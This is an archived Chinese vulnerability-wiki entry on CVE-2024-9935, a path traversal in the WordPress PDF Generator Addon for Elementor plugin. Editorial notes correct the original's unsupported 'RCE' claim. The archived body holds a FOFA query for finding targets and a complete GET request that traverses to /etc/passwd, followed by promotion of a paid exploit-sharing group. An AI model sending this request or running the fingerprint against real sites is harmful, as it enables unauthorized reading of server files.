






# WordPress PDF Generator Addon for Elementor 任意文件下载（CVE-2024-9935）

> 编号角色校订（2026-10-04）：按技术主体及多编号分节核对主讨论对象、链成员与引用，当前编号字段据此更新；旧编号原值及 `identifier_status` 均保留，变更前字段保存在 `previous_*`。后文原有角色待核项按当前字段阅读，版本、配置及证据缺口未因此自动解决；原作者的复现声明不升级为维护者复现。

> 原显示标题：`【漏洞复现】Wordpress ElementorPageBuilder插件存在文件读取漏洞CVE-2024-9935`。保留原题以便追溯；当前 H1 与标题字段按已核对的技术对象更正，归档技术正文原叙述不改。

> 技术范围校订（2026-10-04；[CNA 记录](https://raw.githubusercontent.com/CVEProject/cvelistV5/main/cves/2024/9xxx/CVE-2024-9935.json)）：对应插件是 PDF Generator Addon for Elementor Page Builder，`rtw_generate_pdf` / `rtw_pdf_file` 路径遍历支持任意文件下载；原文概述中的“RCE”没有由本篇请求证明，不能据文件读取直接推为代码执行。 归档原叙述、标识符和全部示例保留，旧显示标题/字段可从 `previous_*` 追溯。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：WordPress PDF Generator Addon for Elementor CVE-2024-9935
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：缺影响/修复版本及官方公告，页面elementor-84属实验路由需实际启用生成PDF页面；Host为空占位，目标文件权限/OS限制未给
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 指纹明确pdf-generator-addon-for-elementor-page-builder，不能归Elementor核心PageBuilder
2. 标题文件读取正文却写RCE，无执行链支持
3. 缺影响/修复版本及官方公告，页面elementor-84属实验路由需实际启用生成PDF页面
4. Host为空占位，目标文件权限/OS限制未给
5. Nuclei只有截图无模板和匹配判据
6. 大量重复分隔图和付费圈子营销，核心仅一请求应保留并补证

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

xiachuchunmo  银遁安全团队   2024-12-04 22:00  
  
**需要EDU SRC邀请码的师傅可以私聊后台，免费赠送EDU SRC邀请码（邀请码管够）**  
  
  
  
  
**漏洞简介**  
  
  
  
  
  
******WordPress是一款免费开源的内容管理系统(CMS)，最初是一个博客平台，但后来发展成为一个功能强大的网站建设工具，适用于各种类型的网站，包括个人博客、企业网站、电子商务网站等，并逐步演化成一款内容管理系统软件。Wordpress ElementorPageBuilder插件存在RCE漏洞**  
  
  
  
  
**资产测绘**  
  
  
  
  
```
body="wp-content/plugins/pdf-generator-addon-for-elementor-page-builder/"
```  
  
  
  
****  
  
  
  
  
**漏洞复现**  
  
  
  
  
```
GET /elementor-84/?rtw_generate_pdf=true&rtw_pdf_file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```  
  
****  
  
  
  
  
  
**Nuclei测试**  
  
  
  
  
  
  
  
  
  
  
**圈子介绍**  
  
  
  
  
  
高  
质量漏洞利用工具分享社区，每天至少更新一个0Day/Nday/1day及对应漏洞的批量利用工具，团队内部POC分享，星球不定时更新内外网攻防渗透技巧以及最新学习研究成果等。  
如果师傅还是新手，内部的交流群有很多行业老师傅可以为你解答学习上的疑惑，内部分享的POC可以助你在Edu和补天等平台获得一定的排名。  
如果师傅已经  
是老手了，有一个高质量的LD库也能为你的工作提高极大的效率，实战或者攻防中有需要的Day我们也可以通过自己的途径帮你去寻找。  
  
**【圈子服务】**  
  
1，一年至少365+漏洞Poc及对应漏洞批量利用工具  
  
2，Fofa永久高级会员  
  
3，24HVV内推途径  
  
4，Cmd5解密，各种漏洞利用工具及后续更新，渗透工具、文档资源分享  
  
5，内部漏洞  
库情报分享  
（目前已有2000+  
poc，会定期更新，包括部分未公开0/1day）  
  
6，加入内部微信群，认识更多的行业朋友（群里有100+C**D通用证书师傅），遇到任何技术问题都可以进行快速提问、讨论交流；  
  
  
圈子目前价格为**129元**  
**(交个朋友啦！)**  
，现在星球有近900+位师傅相信并选择加入我们，人数满1000  
**涨价至149**，圈子每天都会更新内容。  
  
  
  
  
  
  
**圈子近期更新LD库**  
  
  
  
  
  
  
  
**每篇文章均有详细且完整WriteUp**  
  
  
  
**星球提供免费F**a**  
**C**D通用证书********一起愉快的刷分**  
  
  
  
  
  
  
  
**免责声明**  
  
  
  
  
  
  
  
文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
